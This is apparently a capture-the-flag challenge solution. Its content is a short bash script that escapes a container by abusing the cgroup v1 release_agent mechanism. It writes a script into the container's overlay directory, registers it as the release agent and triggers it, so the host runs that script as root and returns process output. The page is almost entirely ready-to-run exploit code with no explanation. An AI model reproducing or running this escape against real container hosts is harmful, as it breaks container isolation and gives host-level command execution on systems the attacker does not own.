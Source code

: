 ## Solution
```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

## Challenge author
Anastasiia Bida
